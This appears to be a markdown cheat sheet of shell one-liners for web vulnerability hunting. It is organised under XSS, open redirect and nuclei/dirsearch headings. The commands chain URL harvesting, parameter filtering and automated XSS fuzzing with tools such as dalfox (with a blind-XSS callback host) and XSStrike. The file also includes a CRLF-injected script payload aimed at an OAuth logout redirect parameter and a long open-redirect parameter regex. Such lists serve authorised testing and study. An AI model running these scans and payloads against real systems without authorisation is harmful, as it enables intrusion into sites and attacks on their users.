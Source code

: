 ## XSS
    echo vulnweb.com | gau | tee domain.txt
    httpx -l domain.txt -mc 200,302 -o domain200.txt 
    cat domain200.txt | gf xss | sed "s/=.*/=/" | sed "s/URL: //" | tee domain4xss.txt 
    cat urls.txt | uro 
    dalfox file domain4xss.txt -b (xss.ht or collaborator) pipe 
    cat indeed.txt | kxss > xss.txt 
    python XSStrike/xsstrike.py --seeds domain4xss.txt --fuzzer --file-log-level INFO --log-file output.log
    cat urls.txt | go run ParamsReflect.go
    cat injected_urls.txt | sort -u | httpx -ms "<h1>akira</h1>" -fe "Location: .*<h1>akira</h1>.*" -t 200

## Open Redirect
    cat URlSubs.txt | ~/go/bin/httpx -path "/oauth/idp/logout?post_logout_redirect_uri=%0d%0a%0d%0a%3Cscript%3Ealert('XSSSS')%3C/script%3E" -ms "XSSSSS" -fe "Location: .*XSSS.*" -t 200 -o xss.txt

    
    echo "https://web.archive.org/cdx/search/cdx?url=*.example.com&fl=original&collapse=urlkey" | httpx -er '(https?://[^&\s]+)[^&\s]*(\?|&)(outurl=|redirectionURL=|refURL=|returnURL=|siteurl=|targetURL=|urlTo=|redirectLocation=|redirectPage=|redirectPath=|redirectUrlTo=|urlRedirect=|redirectTo=|linkTo=|urlOut=|outboundUrl=|navTo=|jumpTo=|clickTo=|linkURL=|directTo=|moveTo=|outgoing_url=|outbound_link=|location_to=|forward=|from_url=|go=|goto=|host=|html=|image_url=|img_url=|load_file=|load_url=|login?to=|login_url=|logout=|navigation=|next=|next_page=|out=|page=|page_url=|path=|port=|redir=|redirect=|redirect_to=|redirect_uri=|redirect_url=|reference=|return=|returnTo=|return_path=|return_to=|return_url=|rt=|rurl=|show=|site=|target=|to=|uri=|url=|val=|validate=|view=|window=|location=|link=|click=|move=|jump=|follow=|nav=|ref=|locationURL=|redirectURL=|redirect_to_url=|pageurl=|navigate=|returnUrl=|redirectlink=|redirection=|referral=|direct=|forwardto=|gotoURL=|outlink=|targ=|linkto=|sendto=|dest=|destURL=|destination=|finalURL=|newUrl=|goToUrl=|navToURL=|referralURL=|returnURI=|uri_redirect=|path_redirect=|url_redirect=|location_redirect=|returnPath=|returnToURL=|outgoingURL=|redirectURI=|redirect_path=|redirect_url_path=|targetPath=|clickTarget=|followURL=|linkOut=|location_href=|jumpURL=|returnLink=|refLink=|sendURL=|url_destination=|redirect_destination=|goto_url=|forward_url=|nav_to=|move_to_url=|url_location=|redirect_location=|target_url=|target_link=|return_url_path=|return_to_path=|outgoing_link=|link_destination=|click_destination=|redirector=|redirection_link=|uri_location=|url_path=|path_to=|path_redirector=|go_url=|forward_link=|location_path=)[^&\s]*' -json | jq '.extracts[]' | sed 's/  "//g'| sed 's/"//g' | sed 's/\[//g' | sed 's/\]//g' | sed 's/,//g' > openredirect.txt


## Nuclie
    
    nuclei -l domains.txt -es info -ept ssl -o data.txt
    # dirsearch 
    dirsearch -l domain200.txt -e '' -i 200-299 -x 300-599


